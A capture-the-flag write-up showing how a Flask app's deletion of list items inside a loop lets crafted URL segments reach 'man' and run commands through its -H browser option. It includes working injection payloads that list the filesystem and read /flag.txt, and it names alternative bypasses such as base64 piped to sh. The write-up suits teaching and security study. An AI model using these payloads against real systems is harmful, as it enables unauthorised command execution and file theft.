



Generally when I see a challenge and the author is `hashkitten`... I run away. But not today!

## Where's the flag?

The flag is located at `/flag.txt`, this can be seen in the Dockerfile:
```dockerfile
FROM python:3.13

WORKDIR /app

RUN pip install flask gunicorn
RUN apt-get update && \
  apt-get install -y man-db groff manpages manpages-dev && \
  apt-get clean

COPY src/ .
COPY flag.txt /

RUN chmod -R 755 /flag.txt /app
USER nobody

CMD ["gunicorn", "-w4", "-b0.0.0.0:1337", "app:app"]
```

## Webapp Look

This is the home page of the site:



Selecting the first hyperlink redirects us to `/1/grep` and displays the following:



## Source Code

The handout provides a small Python web application:
```python
from flask import Flask, render_template, Response
import subprocess
import traceback

app = Flask(__name__)

@app.route('/')
def home():
    return render_template('home.html')

@app.route('/<path:command>')
def show_man_page(command):
    command_list = command.split('/')

    # Only alphanumeric please
    for i, cmd in enumerate(command_list):
        if not cmd.isalnum():
            del command_list[i]
    
    result = subprocess.run(['man', *command_list], capture_output=True, text=True)
    output = result.stderr if result.returncode != 0 else result.stdout
  
    return render_template('manpage.html', content=output)

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=1337)
```

The logic is fairly simple, any route that isn't the root page `/` beings the `show_man_page` method.

Inside this method, the path is split into a `command_list`, which is then passed through a loop.

The loop detects if a `cwd` is alphanumeric and if it isn't, it deletes that item from the list using `del`.

Whatever is left in the `command_list` is passed to a `man` command.

So for example from earlier:
- Input is `/1/grep`
- `command_list` is `['1', 'grep']`
- Neither break the `alphanum` check, so they stay!
- `man 1 grep` is executed!

This means not much can be done with special characters as the non-alphanumeric entries are deleted... right?

## `del` isn't safe in loops

The issue lies in usage of `del`, let's create a small sample script to demonstrate.

```python
command = input('Test: ')

command_list = command.split('/')

# Only alphanumeric please
for i, cmd in enumerate(command_list):
        print(command_list)
        if not cmd.isalnum():
                del command_list[i]

print(*command_list)
```

Let's test with some payloads that will work as intended, e.g. `1/grep`:
```
$ python3 sample.py
Test: 1/grep
['1', 'grep']
['1', 'grep']
1 grep
```

Let's try with something that will trip the check.

```
$ python3 sample.py
Test: 1/#/2
['1', '#', '2']
['1', '#', '2']
1 2
```

Working fine, what about 2 strings that will trip the check?

```
$ python3 sample.py
Test: 1/#/#/2
['1', '#', '#', '2']
['1', '#', '#', '2']
['1', '#', '2']
1 # 2
```

Why does that work?

Well, because `del` entirely removes the entry from the list, the `for` loop doesn't account for the index's changing. So when `del` is triggered the index's no longer align as intended, so the check **skips** one of the entries!

## Now what?

There is command injection, but there needs to be a way to get the flag out.

You have to do it with `man` because the command is passed with an array so `;` cannot be used to do additional commands. You can utilise `$()` to execute commands within `man`, but how do you exfiltrate?

This took the longest, reading through the manpage for `man`, I tried a lot of things, but this ended up being the most interesting:
```
-H[browser], --html[=browser]
        This option will cause groff to produce HTML  output,  and  will
        display  that output in a web browser.  The choice of browser is
        determined by the optional browser argument if one is  provided,
        by  the  $BROWSER environment variable, or by a compile-time de‐
        fault if that is unset (usually lynx).  This option implies  -t,
        and will only work with GNU troff.
```

Let's lest locally, what's this do? I tried with a generic `-Htest` but all it does is print nothing. I tried with a simple `echo` payload and we seem to see some success.

`/!/-Hecho hi/man` returns the following:
```
hi /tmp/hmansBYhZS/man.html
```

That works! Let's try to read the flag, but how do we get a `/` without triggering another split in the URL?

The way I did this during the competition was using the first character of `$PATH`!

## RCE to flag

I get LS working like this: `/!/-Hls $(echo%20$PATH|cut -c1)/man`.
```
/tmp/hman9RkXIp/man.html

/:
app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Now we can read the flag with `/!/-Hcat $(echo $PATH|cut -c1)flag.txt/man`!



Flag: `oiccflag{i_wish_i_did_this_more_securely_10a287eb}`

## Other methods done by other players!

- Using `cd ..` to traverse and then just read without including the `/`
- The current location is `/app`, using the `PWD` variable and replacing the `app` with `${PWD%app}` for `/`
- Using base64 encoded strings, then using `base64 -d` and passing it to `sh` using pipes, this can also be done with `$()`
- Using `python` with `-c` and using `chr(int)` to build a payload